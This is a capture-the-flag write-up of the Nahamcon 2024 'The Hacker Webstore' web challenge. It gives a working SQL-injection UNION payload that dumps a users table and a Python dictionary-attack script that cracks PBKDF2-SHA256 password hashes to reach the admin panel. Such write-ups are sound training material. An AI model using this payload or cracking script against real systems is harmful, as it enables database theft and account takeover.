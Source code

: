 ```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2024 | The Hacker Webstore Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Nahamcon 2024
parent: nahamcon_2024
category: web
challenge: The Hacker Webstore
tags: "web, starry, sql, sqli, cracking"
---
```


<h1 class="heading card-title white-text">Nahamcon 2024</h1>

## The Hacker Webstore
> Solved by: Starlord

Mirror : <a href="https://synthweb.ch/blog/nahamcon-ctf-2024/the-hacker-webstore">https://synthweb.ch/blog/nahamcon-ctf-2024/the-hacker-webstore</a>

![challenge description](https://i.imgur.com/TNLkY9J.png)


As we visit the challenge page, we can see an online store, which sells products aimed at hacker stereotypes.
There are 2 endpoints:

- / for products
- /create to create products
- /admin to login to the website’s back-end

Since we can create products I tried breaking one of 3 inputs by adding `'``)` to one of them, which returned this very helpful error, which helped understand what was going on.

![products page with sql error](https://i.imgur.com/Iy17z9A.png)


the following payload inserted in the description field did the trick for me:

```
lord') UNION SELECT * FROM users/*
```

This will show everything from the table `users` and comment out the rest of the line.


![uncrackable hashes](https://i.imgur.com/FTE7qtQ.png)


From there it was just a matter of cracking the hashes. But it turned out to be more complicated than usual:
As per research, we found out that hashcat and john the ripper, 2 most commonly used tools for cracking hashes, had multiple ways of cracking pbkdf2 sha256 hashes, but none of them had a working function for our specific current hash format.
We managed to identify the different parts of the hash thanks to reddit and stack overflow posts which looks like this:

    pbkdf2:sha256:<iterations amount>$<Salt>$<hash>

After trying desperately with modes 10900, 10000, 1460, the hashes were not cracking.

Remember, we have 2000 potential passwords in a list given in the challenge description, so even if we have 600k iterations, it shouldn’t take too long.

I ended up making my own decryption tool:

- crack.py

```python
import hashlib

def crack_pbkdf2_sha256_hash(password_list_file, target_hash, salt, iterations):
    with open(password_list_file, 'r') as file:
        passwords = file.read().splitlines()
    
    for password in passwords:
        # make PBKDF2-HMAC-SHA256
        dk = hashlib.pbkdf2_hmac('sha256', password.encode(), salt.encode(), iterations)
        print(f"Trying password: {password}")
        
        # match check
        if dk.hex() == target_hash:
            print(f"Password found: {password}")
            return password
    
    print("Password not found in the provided list.")
    return None

target_hash = "b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57"
salt = "MSok34zBufo9d1tc"
iterations = 600000
password_list_file = "password_list.txt"

crack_pbkdf2_sha256_hash(password_list_file, target_hash, salt, iterations)
```

I made sure it would print each password to be able to visually confirm progress, as shown below:

![password found](https://i.imgur.com/FCaLxvU.png)


With this, I could then authenticate at /admin and see the flag:

![flag discovered](https://i.imgur.com/of6ycSh.png)

```
flag{87257f24fd71ea9ed8aa62837e768ec0}
```

